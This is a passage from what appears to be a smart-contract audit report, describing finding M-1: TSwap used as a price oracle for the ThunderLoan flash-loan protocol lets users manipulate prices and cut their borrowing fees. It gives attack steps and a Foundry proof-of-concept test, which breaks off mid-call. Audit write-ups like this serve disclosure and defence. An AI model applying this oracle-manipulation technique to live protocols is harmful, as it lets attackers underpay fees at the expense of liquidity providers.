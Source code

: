 ### [M-1] Using Tswap as price Oracle allows for Oracle manipulation and to users being able to get lower borrowing fees. 

**Description:** At `getCalculatedFee` the fee is calculated in wrappedEthed (Weth), using the `TSwap` protocol as price Oracle. However, the exchange rate at `TSwap` can be manipulated by adding (borrowed) tokens to the `Tswap` exchange pool.  

**Impact:** As the exchange rate at the `TSwap` protocol is artifically decreased, a user will pay lower fees for their flashloan.  

**Proof of Concept:**
1. Malicious user takes out a first flashLoan of TokenA. 
2. The user deposits the flashloan to the `Tswap` protocol. 
3. Malicious user takes out a second flashloan of TokanA. 
4. The user pays far lower fees for the second flashloan.   
5. On average the user paid lower fees than they would other wise have. 

<detail> 
<summary> Proof of Concept </summary> 

Place the following code in `ThunderLoanTest.t.sol`.

```javascript
    function testOracleManipulation() public {
        thunderLoan = new ThunderLoan(); 
        tokenA = new ERC20Mock(); 
        proxy = new ERC1967Proxy(address(thunderLoan), ""); 
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth)); 
        address tswapPool = pf.createPool(address(tokenA)); 

        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf)); 

        // 2. fund tswap
        vm.startPrank(liquidityProvider); 
        tokenA.mint(liquidityProvider, 100e18); 
        tokenA.approve(address(tswapPool), 100e18); 
        weth.mint(liquidityProvider, 100e18); 
        weth.approve(address(tswapPool), 100e18); 
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp); 
        vm.stopPrank();
        // ratio = 1 to 1. 

        // 3. fund Thunderloan
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true); 
        
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18); 
        tokenA.approve(address(thunderLoan), 1000e18); 
        thunderLoan.deposit(tokenA, 1000e18); 
        vm.stopPrank();

        // 4. get two flashloans. 
        //     a. to influence price of weth/tokenA on Tswap 
        //     b. to show that doing this results in reduced fees on thunderloan. 
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18); 
        console2.log("normal fee is: ", normalFeeCost); 
        //0.296147410319118389 

        uint256 amountToBorrow = 50e18; 
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
            address(tswapPool), 
            address(thunderLoan),
            address(thunderLoan.getAssetFromToken(tokenA)) 
```